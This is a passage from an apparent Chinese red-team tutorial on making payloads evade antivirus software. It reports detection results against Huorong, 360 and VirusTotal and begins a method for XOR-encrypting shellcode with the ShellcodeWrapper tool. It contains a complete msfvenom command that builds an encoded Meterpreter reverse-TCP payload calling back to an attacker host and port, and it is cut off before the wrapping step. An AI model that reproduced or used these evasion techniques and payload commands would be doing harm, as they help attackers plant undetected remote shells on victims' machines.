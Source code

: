打开杀软，火绒可查杀，**360不可查杀**（原po火绒静态可查杀但是行为检测没报警，360杀毒和卫士没有反应，直接上线）。

virustotal.com上查杀率为37/69（原po为12/69）。

![image-20220530143025208](./images/202205301430315.png)

### 方法6 xor加密（VT免杀率21/69）

需要使用一个工具`https://github.com/Arno0x/ShellcodeWrapper`，原项目为python2，在此基础上修改了一个python3版本[ShellcodeWrapper](https://github.com/Threekiii/Awesome-Redteam/tree/master/scripts/ShellcodeWrapper)。

先用msfvenom生成一个raw格式的shellcode

```
msfvenom -p  windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' lhost=192.168.174.128 lport=6666  -f raw > shellcode.raw
```

在`ShellcodeWrapper`文件夹中执行下面命令，其中`threekiii`为自己设置的key。
